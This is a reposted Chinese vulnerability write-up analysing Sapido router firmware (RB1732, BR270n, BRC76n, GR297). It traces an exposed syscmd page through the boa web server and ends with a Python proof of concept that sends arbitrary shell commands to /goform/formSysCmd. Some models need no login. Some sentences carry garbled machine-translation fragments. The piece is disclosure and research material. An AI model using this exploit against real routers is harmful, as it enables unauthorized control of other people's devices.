# Sapido多款路由器命令执行漏洞&突破

> 原文：[https://www.zhihuifly.com/t/topic/3400](https://www.zhihuifly.com/t/topic/3400)

# Sapido多款路由器命令执行漏洞&突破

# 一、漏洞简介

## 二、漏洞影响

BR270n-v2.1.03

BRC76n-v2.1.03

GR297-v2.1.3

RB1732-v2.0.43

之前的版本存在命令执行漏洞

## 三、复现过程

### 0x01 固件环境模拟



### 0x02 binwalk解压固件





### 0x03 查看web容器



对于嵌入式设备而言，很多服务都是移植开源的，`/etc/init.d`文件夹下是路由器启动时的加载项，在这些文件中可以看到很多的启动服务等，但是在这里我没有发现`web`容器的启动项，猜测可能厂商进行了二次开发

### 0x04 查找http服务模块



在这里可以看到很多关于`http`的，我们不去关注`web`网页出现的。因为我们想要知道这款路由器的`web`容器是其中，所以我们把重点放在前面的`elf`文件处，在这里我们看到一个`cm`的`elf`文件，如果知道开源的`web`服务器`boa`可能猜到一些，下面就是`boa`的架构



可以这里清晰的看到`web`层的英文如何状语从句：底层通过`boa`进行交互的。那么对于不知道的容器我们又该如何去分析呢？继续我们去分析剩下的`elf`程序，名字通过逐个状语从句：我们分析在`sysconf`程序中发现了`http`请求的处理方式，使用`ghidra`来分析`sysconf`



通过全文搜索定位`http`到关键函数，在这里我们发现了一个关键的函数`apmib_get`通过猜测也能大概猜到这是一个关于获取的函数，通过`google`可以搜索到这个函数，会发现这个函数是关于`web`开源服务器的`boa`用到的函数，到那么这里我们就已经确认这款路由器的`web`容器的英文`boa`了。既然已经知道了`boa`，肯定那么这个知道有框架一个关键的文件`syscmd.htm`文件，可以执行系统命令，由于但是这款路由器的英文`asp`写的所以我们只进行检索`syscmd`



这里可以发现两个文件，一个`elf`文件，一个`asp`文件，打开`asp`文件



在这里可以抛光页面可以执行系统命令

### 0x05 通过url访问指定页面



发现可以执行系统命令，那么这里又是如何处理的呢？

通过上面的`asp`文件可以知道，对于输入的命令处理应该和`formSysCmd`有关联，这里我们进行`grep`搜索



可以看到一个`webs`的`elf`文件，那么可以猜测这里可能就是`syscmd`执行的临时文件了

### 0x06 分析webs文件





上面就是整个命令执行的逐步实现方式了，第一个图片可以看到使用`system`函数执行输入的系统命令，第二个图片可以裁剪将执行的结果通过`cat`输入到`/web/obama.dat`文件中，最后将`obama.dat`中的内容输入到`web`界面的文本框里。

### 0x07 poc

```
# Exploit title: "SAPIDO RB-1732 command line execution"
# Date: 2019-6-24
# Exploit Author: k1nm3n.aotoi
# Vendor Homepage: http://www.sapido.com.tw/
# Software Link: http://www.sapido.com.tw/CH/data/Download/firmware/rb1732/tc/RB-1732_TC_v2.0.43.bin
# Version: RB-1732 V2.0.43 
# Tested on: linux

import requests

import sys

def test_httpcommand(ip, command):

my_data = {‘sysCmd’: command, ‘apply’: ‘Apply’, ‘submit-url’:’/syscmd.asp’, ‘msg’:’’}

r = requests.post(‘http://%s/goform/formSysCmd’ % ip, data = my_data)

content = r.text

content = content[

content.find(’<textarea rows=“15” name=“msg” cols=“80” wrap=“virtual”>’)+56:

content.rfind(’</textarea>’)]

return content

print test_httpcommand(sys.argv[1], " ".join(sys.argv[2:])) 
```

### 0x08 运行截图



### 0x09 BR270n-v2.1.03命令执行突破

这个原理和RB1732差不多，只不过访问的页面变成了`syscmd.htm`了



### 0x010 BRC76n-v2.1.03命令执行漏洞



### 0x011 GR297-v2.1.3命令执行漏洞



### 0x012 总结

BR270n，RB1732命令执行有个重置就是登陆路由器，可以进行信息的同步获取用户名和密码，而且又有很多路由器使用的还是其他用户名和密码，GR297，BRC76n则不需要进行登陆

## 参考链接

> [http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/](http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)